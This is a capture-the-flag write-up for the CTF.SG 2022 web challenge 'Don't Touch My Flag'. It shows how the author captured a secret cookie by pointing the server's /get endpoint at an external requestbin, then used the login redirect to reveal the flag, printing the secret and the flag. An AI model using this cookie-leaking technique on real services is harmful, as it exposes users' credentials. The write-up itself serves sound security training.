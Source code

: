 ```yaml
---
title: "[CTF.SG'22] Don't Touch My Flag"
date: 2022-03-13T00:00:00+08:00
authors:
- Bowen
tags:
- Python
- web
ctfs:
- CTF.SG'22
---
```


# Don't Touch my Flag (CTF.SG 2022)

![challenge description](chal_desc.png)

## Understanding how the website works

### Get Function

Firstly, from the index function, we see that it calls `/get`.
Looking at the `get` function, we see that it sends a request to the url, with
the `secret` as a cookie. Keep this in mind as we'll need to make use of the
`secret` to get the flag.
Lastly, it censors the response by converting everything into `*`.

![get](get_src.png)
![censor](censor_src.png)

### Flag Function

We see that the webpage uses the `get` function to get `\flag`, so that's
probably the best function to look into next.

![get flag](get_flag_src.png)

Seems like all it does is it reveals the flag if `secret` is correct.

Based on these information, we could certainly get the value of `secret` and
write a script to send it as a cookie. However, the `\login` function does that
for us :O

### Login Function

![login](login_src.png)

We see that the login function will redirect us to the next webpage with
`secret` as a cookie parameter if `secret` as a argument passed in is correct.

### Steps to Solve

1. Get the value of `secret`.
2. Use the `login` function to send a request to `flag` (`/login?next=/flag&secret=secret`).
3. Done

### Getting Secret

As the `get` function sends a request with `secret` as a cookie, we can set up
a listener on an external website, which is used to see the values of the
request sent.

I went to https://pipedream.com/requestbin to set up a listener, and made a
`GET` request through `/get?uri={requestbin_link_here}`. Viola, we got the `secret`!

![pipedream](pipedream.png)

### Using Login to get Flag

Now, we just need to use `login` to send a request to `flag`, simply by doing `/login?next=/flag&secret=8byEt7F60cCSRpQs1jeAXQqByOsK5P5b`.
Ez claps, we got the flag :D

### Flag

`CTFSG{d0nT_toUcH_mY_c00k13s}`

![flag](flag.png)
